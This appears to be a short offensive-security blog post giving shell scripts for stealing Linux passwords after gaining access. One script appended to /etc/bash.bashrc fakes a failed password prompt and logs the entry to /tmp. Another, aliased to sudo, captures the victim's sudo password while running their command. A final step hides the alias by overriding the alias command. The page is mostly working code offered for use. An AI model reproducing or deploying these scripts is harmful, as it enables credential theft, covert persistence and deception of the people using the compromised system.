 {% highlight shell %}
# nano /etc/bash.bashrc
{% endhighlight %}

Add these line to end of the bash.bashrc file

{% highlight shell %}
clear
echo "$(whoami)@$(hostname -I)'s password:"
echo "Permission denied, please try again."
read -s -p "$(whoami)@$(hostname -I)'s password: "  password
echo "$password" >> /tmp/password.txt
echo   
{% endhighlight %}

## Sudo alias and steal sudo password

**This needs permanent solution to add alias and better way to do cut**  
Create file that asks sudo password, runs the last command and steals the password and adds it to a file

{% highlight shell %}
# nano /bin/admin
read -s -p "[sudo] password for $(whoami): "  password
echo
echo $password >> /tmp/sudo_password.txt
echo $password | /usr/bin/sudo -S $(history 1 | cut -c 13-)  
{% endhighlight %}

Give execute permissions to that file and give the script to sudo alias

{% highlight shell %}
# chmod +rx /bin/admin
# alias sudo="/bin/admin"
{% endhighlight %}

Now every time victim is running sudo [command] script asks password, steals the password and runs the command what victim wanted to run.

After this we can hide this alias modification by modifying the alias command

{% highlight shell %}
# alias > /bin/alias_old
# alias alias="cat /bin/alias_old"
{% endhighlight %}
